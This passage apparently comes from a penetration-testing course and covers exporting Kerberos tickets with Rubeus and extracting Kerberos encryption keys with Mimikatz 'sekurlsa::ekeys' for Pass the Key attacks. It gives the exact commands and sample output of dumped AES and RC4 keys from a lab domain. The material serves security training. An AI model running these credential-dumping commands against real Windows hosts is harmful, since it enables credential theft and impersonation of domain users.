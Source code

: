 > **Note:** If you pick a ticket with the service krbtgt, it corresponds to the TGT of that account.

We can also export tickets using `Rubeus` and the option `dump`. This option can be used to dump all tickets (if running as a local administrator). `Rubeus dump`, instead of giving us a file, will print the ticket encoded in Base64 format. We are adding the option `/nowrap` for easier copy-paste.

> **Note:** At the time of writing, using `Mimikatz version 2.2.0 20220919`, if we run `sekurlsa::ekeys` it presents all hashes as des_cbc_md4 on some Windows 10 versions. Exported tickets (sekurlsa::tickets /export) do not work correctly due to the wrong encryption. It is possible to use these hashes to generate new tickets or use Rubeus to export tickets in Base64 format.

#### Rubeus - Export tickets

```cmd
c:\tools> Rubeus.exe dump /nowrap
```


> **Note:** To collect all tickets we need to execute Mimikatz or Rubeus as an administrator.

## Pass the Key aka. OverPass the Hash

The `Pass the Key` aka. `OverPass the Hash` approach converts a hash/key (rc4_hmac, aes256_cts_hmac_sha1, etc.) for a domain-joined user into a full `Ticket Granting Ticket` (`TGT`).

To forge our tickets, we need to have the user's hash; we can use Mimikatz to dump all users Kerberos encryption keys using the module `sekurlsa::ekeys`. This module will enumerate all key types present for the Kerberos package.

#### Mimikatz - Extract Kerberos keys

```cmd-session
mimikatz.exe
privilege::debug
sekurlsa::ekeys

Authentication Id : 0 ; 444066 (00000000:0006c6a2)
Session           : Interactive from 1
User Name         : plaintext
Domain            : HTB
Logon Server      : DC01
Logon Time        : 7/12/2022 9:42:15 AM
SID               : S-1-5-21-228825152-3134732153-3833540767-1107

         * Username : plaintext
         * Domain   : inlanefreight.htb
         * Password : (null)
         * Key List :
           aes256_hmac       b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60
           rc4_hmac_nt       3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_old      3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_md4           3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_nt_exp   3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_old_exp  3f74aa8f08f712f09cd5177b5c1ce50f
```
